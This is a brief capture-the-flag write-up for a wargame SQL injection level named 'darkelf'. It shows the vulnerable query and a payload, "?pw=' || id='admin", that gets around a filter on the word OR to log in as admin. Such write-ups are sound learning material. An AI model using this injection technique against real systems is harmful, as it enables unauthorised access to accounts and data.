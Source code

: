 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 6
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6674ab0c-5e81-49b2-b7e4-62093ae1c3da)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes the `OR` characters. In order to get around this, we need to use the double pipe (`||`) characters.

If we provide the following URI:

```
?pw=' || id='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='' || id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/f912a7a1-a27a-4632-938b-1e6d6bcc56dc)
